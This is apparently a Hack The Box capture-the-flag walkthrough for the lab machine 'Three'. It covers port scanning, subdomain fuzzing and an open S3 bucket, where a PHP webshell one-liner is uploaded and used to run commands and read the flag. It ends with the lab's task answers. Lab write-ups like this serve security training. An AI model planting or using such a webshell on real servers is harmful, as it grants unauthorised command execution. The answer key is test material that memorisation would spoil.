# Three      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```



`Apache` web server is running on port `80/tcp`. Service is `http`. `SSH` is running on port `22/tcp`.

After pasting `target ip` into the browser we can see the website.


#### Disclaimer



As the given email has the domain `thetoppers.htb`, I would recommend adding `{target ip} thetoppers.htb` into your `/etc/hosts` file.

To do this type:

```
sudo nano /etc/hosts
```

At the very end paste section from above and `save` it. You can do that by `Ctrl + X`. Then press `Y`.



### wfuzz

Type:

```
wfuzz -c -u "http://thetoppers.htb/" -H "Host: FUZZ.thetoppers.htb" -w {path to the dictionary you want to use} --hw 1036
```

Where:

`-c` - Enables colored output, making it easier to read the results.

`-u` - Specifies the target URL to which the requests will be sent.

`-H "Host: FUZZ.thetoppers.htb"` - Sets the HTTP Host header, where "FUZZ" is a placeholder that WFuzz will replace with words from the wordlist.

`-w` - Specifies the wordlist to use, which contains potential subdomain names.

`--hw 1036` - Filters results based on the number of words in the HTTP response. Only responses with a word count different from 1036 will be displayed. This helps in identifying interesting responses and ignoring false positives.



### s3

Let's `Google` what `s3` subdomain is.





An `S3` subdomain is used to address resources stored in `Amazon S3 (Simple Storage Service)`, which is part of `Amazon Web Services (AWS)`. `S3` allows users to store and retrieve data like files and media in scalable storage buckets. Each bucket can be accessed via a unique subdomain. There are two common URL formats for accessing `S3 buckets`: 

Path-Style URL uses the format `http://s3.amazonaws.com/[bucket_name]/[object_key]`. 

Virtual-Hosted–Style URL (subdomain format) uses the format `http://[bucket_name].s3.amazonaws.com/[object_key]`. 

In the virtual-hosted style, the bucket name is used as a subdomain of `s3.amazonaws.com`. For example, if you have a bucket named `mywebsite`, you can access it using the subdomain `mywebsite.s3.amazonaws.com`. These subdomains are useful for hosting static websites, serving media files, or applications that require direct and scalable access to stored data on the web.

#### /etc/hosts

`S3` subdomain might be useful for us. Let's add it into `/etc/hosts` file.

This time we will to this by typing:

```
echo "{target ip} s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

in our terminal.



Paste `s3.thetoppers.htb` into the browser.



### aws

If you don't have `aws cli` install it by typing:

```
apt install awscli 
```

Then configure it. Values can be fake:



If it's done, we are going to paste:

```
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

to check buckets hosted.



Now, we want to check objects from specified buckets:

```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```



### PHP webshell

We want to upload a `PHP webshell`.

```
<?php system($_GET["cmd"]); ?>
```

This PHP one liner captures the "cmd" parameter from a GET request and executes it as a system command on the server. For example, visiting http://example.com/shell.php?cmd=ls will execute the ls command and display the list of files in the current directory. This is very dangerous because it allows remote execution of arbitrary system commands, which can lead to severe security breaches. Such an approach should be avoided, and secure methods for handling user input should be used instead.

Create the file as `.php`.



Now is time to upload it.

Type:

```
aws --endpoint=http://s3.thetoppers.htb s3 cp {your shell file name}.php s3://thetoppers.htb
```



Shelle is there. Good.



### Get the flag

Now after typing into browser:

```
http://thetoppers.htb/{your shell file name}.php?cmd={command}
```

we should be able to execute commands.

Let's test it:



It works.





Flag captured.

### Paste the flag



## Answers

### Task-1: How many TCP ports are open?

2

### Task-2: What is the domain of the email address provided in the "Contact" section of the website?

thetoppers.htb

### Task-3: In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

/etc/hosts

### Task-4: Which sub-domain is discovered during further enumeration?

s3.thetoppers.htb

### Task-5: Which service is running on the discovered sub-domain?

Amazon S3

### Task-6: Which command line utility can be used to interact with the service running on the discovered sub-domain?

awscli

### Task-7: Which command is used to set up the AWS CLI installation?

aws configure

### Task-8: What is the command used by the above utility to list all of the S3 buckets?

aws s3 ls

### Task-9: This server is configured to run files written in what web scripting language?

PHP

### Submit root flag

Three completed.